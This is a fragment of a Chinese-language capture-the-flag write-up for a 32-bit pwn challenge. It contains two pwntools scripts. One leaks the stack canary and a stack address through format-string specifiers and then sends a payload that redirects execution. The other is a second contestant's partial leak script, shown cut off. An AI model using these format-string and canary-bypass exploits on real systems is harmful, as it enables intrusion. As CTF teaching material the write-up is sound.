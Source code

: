 仔细看看结尾的leave；ret，他是不是不太一样哦

剩下的就和前面的一样咯，就是前面两个题加起来

```python
from pwn import *
io=process("./pwn")
# io=remote("101.42.30.15",8407)

gdb.attach(io)
pause()

io.sendafter(b"you!!!!!\n",b"%15$p.%1$p".ljust(0x10,b"."))
canary=int(io.recv(10),16)
io.recvuntil(b".")
stack=int(io.recv(10),16)+0x10
print("canary: ",hex(canary))
print("stack: ",hex(stack))


payload=p32(0x80485e0)*8+p32(canary)+p32(stack)*3
io.send(payload)

io.interactive()
```

这里附上一位力大砖飞的选手的wp，属实很难绷，很不优雅

![1694095152169](../images/1694095152169.png)

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')

#p = process("./t3")
#gdb.attach(p)
#pause()
p = remote("101.42.30.15", 8407)
p.recvuntil(b"!!!!!")
'''
value = 0x32
offset = 6
target_addr = 0x60108c
payload = "%{}c%{}$lln".format(value, offset+3).ljust(8*3, "a").encode("ISO-8859-1")
payload += p64(target_addr)
'''
target_addr = 0xffffd0fc
offset = 7

payload = "%14$08x=%15$08x=%16$08x=%17$08x".encode("ISO-8859-1")
print(payload)
p.send(payload)
can = p.recv()
print("can1: ",can)
can = p.recv()[:-1]
```